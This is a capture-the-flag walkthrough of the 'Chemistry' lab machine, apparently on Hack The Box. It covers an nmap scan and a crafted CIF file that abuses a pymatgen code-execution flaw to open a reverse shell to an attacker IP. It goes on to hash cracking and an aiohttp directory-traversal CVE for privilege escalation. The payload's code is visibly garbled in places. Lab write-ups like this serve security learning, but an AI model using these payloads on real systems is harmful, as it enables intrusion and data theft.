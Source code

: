 ```yaml
---
title: CHEMISTRY
description: walkthrough
---
```


Difficulty: Easy

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image.png)

## Information Gathering Phase

### Nmap

```python
┌──(khem㉿kali)-[~]
└─$ nmap -sCV -v 10.10.11.38  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 08:47 EST

Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
646/tcp  filtered ldp
900/tcp  filtered omginitialrefs
5000/tcp open     upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Tue, 10 Dec 2024 14:01:35 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

Completed NSE at 08:49, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.84 seconds
```

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%201.png)

No credentials so signup

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%202.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%203.png)

when I click the link “example.cif” file got downloaded
lets see what is that

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%204.png)

have this kind of content

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%205.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%206.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%207.png)

after file uploads

when I view it 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%208.png)

that means it is being executed when view is clicked 
how can I use the cif file for exploitation? or reverse shell

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%209.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2010.png)

[Arbitrary code execution when parsing a maliciously crafted JonesFaithfulTransformation transformation_string](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

I am confident that, I can take advantage of the cif file to get reverse shell, as the cif file is being executed by the application 

Now lets craft the cif file that would give us reverse shell for the above link 

```python
data_Example
_cell_length_a 10.00000
_cell_length_b 10.00000
_cell_length_c 10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta 90.00000 _cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
_atom_site_occupancy
H 0.00000 0.00000 0.00000 1
0 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc 'a,b,[d for d in
().__class____mro__[1].__getattribute___ ( *[().__class____mro__[1]]+["____sub" + "classes____"]) 0
if d.____name____ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.24/4444 0>&1\"");0,0,0'
-space group magn.number BNS 62.448
-space group magn.name E BNS "P n' m a'"
```

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2011.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2012.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2013.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2014.png)

there is a file called database.db 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2015.png)

I download the database file and open it using sqlite3

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2016.png)

there is table called user

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2017.png)

there is username is hash 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2018.png)

I used crack station to crack the hash and got the password

now lets login to user rosa because there is user called rosa in home directory 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2019.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2020.png)

Now whats next?

### Lateral Movement

looking for the privilege of the use rosa

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2021.png)

rosa can run bash file 

I am logged in as rosa

rosa can execute shell command

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2022.png)

there was linpeas file so i run that one 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2023.png)

result from the linpeas scan

there exist a server running on [localhost](http://localhost) port 8080

to check whether is it really running or not 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2024.png)

it is python server 

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2025.png)

[CVE-2024-23334: A Deep Dive into aiohttp's Directory Traversal Vulnerability](https://ethicalhacking.uk/cve-2024-23334-aiohttps-directory-traversal-vulnerability/#gsc.tab=0)

this blog demonstrate the vulnerability of aiohttp/3.9.1

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2026.png)

[https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2027.png)

copy the code and modify the file path

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2028.png)

![image.png](../../../assets/Chemistry%20158ab0f53d1d806680acfa305c62a9df/image%2029.png)